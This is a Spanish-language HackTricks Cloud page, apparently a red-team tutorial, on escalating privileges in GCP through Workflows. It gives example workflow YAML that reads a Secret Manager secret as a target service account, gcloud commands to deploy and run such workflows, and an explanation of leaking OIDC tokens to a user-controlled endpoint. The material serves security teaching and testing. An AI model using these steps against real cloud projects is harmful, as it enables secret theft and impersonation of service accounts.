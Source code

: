 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Información básica:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Hasta donde sé, no es posible obtener un shell con acceso al endpoint de metadatos que contiene las credenciales de la SA atacada a un Workflow. Sin embargo, es posible abusar de los permisos de la SA añadiendo las acciones a realizar dentro del Workflow.

Es posible encontrar la documentación de los conectores. Por ejemplo, esta es la [**página del conector de Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** En la barra lateral es posible encontrar varios otros conectores.

Y aquí puedes encontrar un ejemplo de un conector que imprime un secreto:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Actualizar desde la CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Si obtienes un error como `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, simplemente **espera un minuto y vuelve a intentarlo**.

Si no tienes acceso a la web, es posible activar y ver la ejecución de un Workflow con:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
También puedes verificar la salida de ejecuciones anteriores para buscar información sensible.
{% endhint %}

Ten en cuenta que incluso si obtienes un error como `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` porque no tienes ese permiso, el flujo de trabajo ha sido generado.

### Filtrar el token OIDC (¿y OAuth?)

Según [**la documentación**](https://cloud.google.com/workflows/docs/authenticate-from-workflow), es posible utilizar pasos de flujo de trabajo que enviarán una solicitud HTTP con el token OAuth o OIDC. Sin embargo, al igual que en el caso de [Cloud Scheduler](gcp-cloudscheduler-privesc.md), la solicitud HTTP con el token Oauth debe ser al host `.googleapis.com`.

{% hint style="danger" %}
Por lo tanto, es **posible filtrar el token OIDC indicando un endpoint HTTP** controlado por el usuario, pero para filtrar el **token OAuth** necesitarías **un bypass** para esa protección. Sin embargo, aún puedes **contactar cualquier API de GCP para realizar acciones en nombre del SA** utilizando conectores o solicitudes HTTP con el token OAuth.
{% endhint %}

#### OAuth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Con este permiso en lugar de `workflows.workflows.create` es posible actualizar un flujo de trabajo ya existente y realizar los mismos ataques.

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
